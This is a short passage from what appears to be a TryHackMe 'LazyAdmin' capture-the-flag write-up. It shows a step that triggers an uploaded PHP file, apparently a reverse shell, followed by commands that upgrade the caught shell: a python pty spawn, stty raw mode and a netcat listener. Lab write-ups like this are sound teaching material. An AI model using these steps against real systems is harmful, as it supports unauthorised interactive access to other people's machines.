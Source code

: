     <img src="/assets/images/thm/LazyAdmin/Untitled 8.png" alt="Untitled" data-size="original">
* now we can run the code by navigating to http:///content/inc/ad/juba.php

***





## Stabilize the shell 

```bash
$ which python
/usr/bin/python
$ python -c 'from pty import spawn ; spawn("/bin/bash")'
www-data@THM-Chal:/$ export TERM=xterm  
export TERM=xterm
www-data@THM-Chal:/$ ^Z
zsh: suspended  nc -nlvp 9050
                                                                                                                                           
┌──(root💀kali)-[/home/juba]
└─# stty raw -echo ; fg                                                                                                          148 ⨯ 1 ⚙
[1]  + continued  nc -nlvp 9050

www-data@THM-Chal:/$
```

***


